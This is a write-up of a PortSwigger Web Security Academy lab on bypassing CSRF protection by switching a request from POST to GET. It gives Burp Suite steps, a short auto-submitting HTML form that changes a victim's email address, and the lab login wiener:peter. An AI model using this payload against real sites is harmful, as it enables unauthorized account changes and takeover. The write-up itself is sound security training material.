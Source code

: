 # CSRF where token validation depends on request method

## Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)'s email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 

## Reproduction and proof of concept

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is rejected.
3. Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.
4. If you're using Burp Suite Professional, right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".

Alternatively, if you're using Burp Suite Community Edition, use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".

```text
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

5. Go to the exploit server, paste your exploit HTML into the **Body** field, and click **Store**.
6. To verify if the exploit will work, try it out by clicking **View exploit** and checking the resulting HTTP request and response.
7. Click **Deliver to victim**.

## Exploitability

An attacker needs to use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. There is an accounts on the application that can be used to design the attack. The credentials are`wiener:peter`.
